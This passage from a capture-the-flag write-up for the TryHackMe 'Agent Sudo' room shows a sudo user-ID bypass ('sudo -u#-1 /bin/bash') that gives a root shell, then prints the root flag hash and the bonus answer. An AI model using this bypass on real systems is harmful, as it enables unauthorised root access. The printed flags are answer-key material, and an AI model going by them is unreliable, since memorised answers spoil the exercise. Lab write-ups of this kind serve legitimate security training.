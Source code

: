 > What is the root flag?

- We can also find the exploit for this vulnerability on Exploit Database.

![[12 2.png]]

- Let's enter that in the terminal.

```

james@agent-sudo:~$ sudo -u#-1 /bin/bash

root@agent-sudo:~#

```

- We have successfully escalated out privilege to root.

- Let's `cat` the root flag.

```

root@agent-sudo:/root# cd /root ; cat root.txt

To Mr.hacker,

  

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.

  

Your flag is

b53a02f55b57d4439e3341834d70c062

  

By,

DesKel a.k.a Agent R

```

## Answer

```

b53a02f55b57d4439e3341834d70c062

```

## Question

> (Bonus) Who is Agent R?

- The message was from `Agent R` who is also known as `DesKel`.

## Answer

```

DesKel

```